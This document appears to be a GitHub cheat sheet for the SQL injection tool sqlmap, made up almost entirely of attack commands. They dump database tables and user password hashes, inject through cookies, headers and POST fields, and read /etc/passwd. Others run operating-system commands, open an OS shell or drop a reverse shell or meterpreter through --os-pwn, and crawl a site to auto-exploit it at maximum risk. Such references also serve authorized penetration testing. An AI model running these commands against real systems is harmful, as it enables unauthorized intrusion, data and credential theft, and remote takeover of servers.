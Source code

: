 # SQLmapCheatSheet
# Attack Example:-
    $ sqlmap -u www.site.com/ --crawl 2 --batch
    $ sqlmap -u www.site.com/index.php?id=1 -- batch --dbs
    $ sqlmap -u www.site.com/index.php?id=1 -- batch -D database_name --tables
    $ sqlmap -u www.site.com/index.php?id=1 -- batch -D database_name -T table_name --columns
    $ sqlmap -u www.site.com/index.php?id=1 -- batch -D database_name -T table_name -C columns_name1,columns_name2,columns_name3 --dump
    
    $ sqlmap -r burpsuite_copy_to_file.txt -p username --batch --dump



## Basic arguments for SQLmap
Generic 
-   -u " < URL > " 
-   -p "<PARAM TO TEST>" 
-   --user-agent=SQLMAP 
-   --random-agent 
-   --threads=10 
-   --risk=3 #MAX
-   --level=5 #MAX
-   --dbms="<KNOWN DB TECH>" 
-   --os="<OS>"
-   --technique="UB" #Use only techniques UNION and BLIND in that order (default "BEUSTQ")
-   --batch #Non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
-   --auth-type="<AUTH>" #HTTP authentication type (Basic, Digest, NTLM or PKI)
-   --auth-cred="<AUTH>" #HTTP authentication credentials (name:password)
-   --proxy=http://127.0.0.1:8080
-   --union-char "GsFRts2" #Help sqlmap identify union SQLi techniques with a weird union char

## Retrieve Information
Internal
-   --current-user #Get current user
-   --is-dba #Check if current user is Admin
-   --hostname #Get hostname
-   --users #Get usernames od DB
-   --passwords #Get passwords of users in DB
-   --privileges #Get privileges


## DB data
-   --all #Retrieve everything
-   --dump #Dump DBMS database table entries
-   --dbs #Names of the available databases
-   --tables #Tables of a database ( -D <DB NAME> )
-   --columns #Columns of a table  ( -D <DB NAME> -T <TABLE NAME> )
-   -D <DB NAME> -T <TABLE NAME> -C <COLUMN NAME> #Dump column


## Injection place
-   From BurpSuite/ZAP capture
-   Capture the request and create a req.txt file!
-   [sqlmap -r req.txt --current-user]

## GET Request Injection
-   sqlmap -u "http://example.com/?id=1" -p id
-   sqlmap -u "http://example.com/?id=*" -p id

## POST Request Injection
-   sqlmap -u "http://example.com" --data "username=*&password=*"

 
## Injections in Headers and other HTTP Methods
# Inside cookie
-   sqlmap  -u "http://example.com" --cookie "mycookies=*"

## Inside some header
-  sqlmap -u "http://example.com" --headers="x-forwarded-for:127.0.0.1*"
-  sqlmap -u "http://example.com" --headers="referer:*"

## PUT Method
-  sqlmap --method=PUT -u "http://example.com" --headers="referer:*"
-  <!--The injection is located at the '*'-->





## Indicate string when injection is successful
-  --string="string_showed_when_TRUE" 


## Eval
Sqlmap allows the use of -e or --eval to process each payload before sending it with some python oneliner. This makes very easy and fast to process in custom ways the payload before sending it. In the following example the flask cookie session is signed by flask with the known secret before sending it:
-  sqlmap http://1.1.1.1/sqli --eval "from flask_unsign import session as s; session = s.sign({'uid': session}, secret='SecretExfilratedFromTheMachine')" --cookie="session=*" --dump



## Shell
# Exec command
-  python sqlmap.py -u "http://example.com/?id=1" -p id --os-cmd whoami

# Simple Shell
-  python sqlmap.py -u "http://example.com/?id=1" -p id --os-shell

# Dropping a reverse-shell / meterpreter
-  python sqlmap.py -u "http://example.com/?id=1" -p id --os-pwn



# Read File
-  --file-read=/etc/passwd


## Crawl a website with SQLmap and auto-exploit ->
-  sqlmap -u "http://example.com/" --crawl=1 --random-agent --batch --forms --threads=5 --level=5 --risk=3

-  --batch = non interactive mode, usually Sqlmap will ask you questions, this accepts the default answers
-  --crawl = how deep you want to crawl a site
-  --forms = Parse and test forms


## Second Order Injection
-  python sqlmap.py -r /tmp/r.txt --dbms MySQL --second-order "http://targetapp/wishlist" -v 3
-  sqlmap -r 1.txt -dbms MySQL -second-order "http://<IP/domain>/joomla/administrator/index.php" -D "joomla" -dbs



## Set a suffix
-  python sqlmap.py -u "http://example.com/?id=1"  -p id --suffix="-- "


## Prefix
-  python sqlmap.py -u "http://example.com/?id=1"  -p id --prefix="') "


## Help finding boolean injection
# The --not-string "string" will help finding a string that does not appear in True responses (for finding boolean blind injection)
-  sqlmap -r r.txt -p id --not-string ridiculous --batch

